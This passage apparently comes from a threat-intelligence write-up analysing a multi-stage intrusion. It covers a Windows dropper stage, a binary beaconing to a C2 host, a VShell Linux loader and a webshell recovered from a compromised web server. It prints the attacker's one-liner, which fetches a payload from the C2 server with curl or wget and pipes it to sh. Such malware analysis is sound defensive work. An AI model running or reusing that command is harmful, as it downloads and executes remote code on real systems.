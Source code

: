 ```
)

start "" %v%
exit /b 0

We can see this second stage will enumerate the operating systems architecture and write the corresponding binary to the file path C:\Users\Public\07f79946tcp.exe.
``` 

### Stage 3

`07f79946tcp.exe`, the third stage, reaches out to the C2 server, `microsoft-symantec[.]art:8848`, for additional payloads or stages to establish persistent Command and Control. We were unable to retrieve these or reverse engineer the protocol. 


## VShell - Linux one-liner

### Stage 1 

```
(curl -fsSL -m180 hxxp://microsoft-symantec[.]art:8848/slt||wget -T180 -q http://microsoft-symantec.art:8848/slt)|sh
```
* We can see this uses `curl` or `wget` to downloaded the payload `hxxp://microsoft-symantec[.]art:8848/slt` and execute it with `sh`.

# Webshells / Backdoors

## test.resources

### Stage 1

We managed to recover evidence that the threat actor delivered a payload, `test.resources`, to a compromised web-server. 

[![2](/assets/images/china/test.resources_stage2.png)](/assets/images/china/test.resources_stage2.png){: .full}
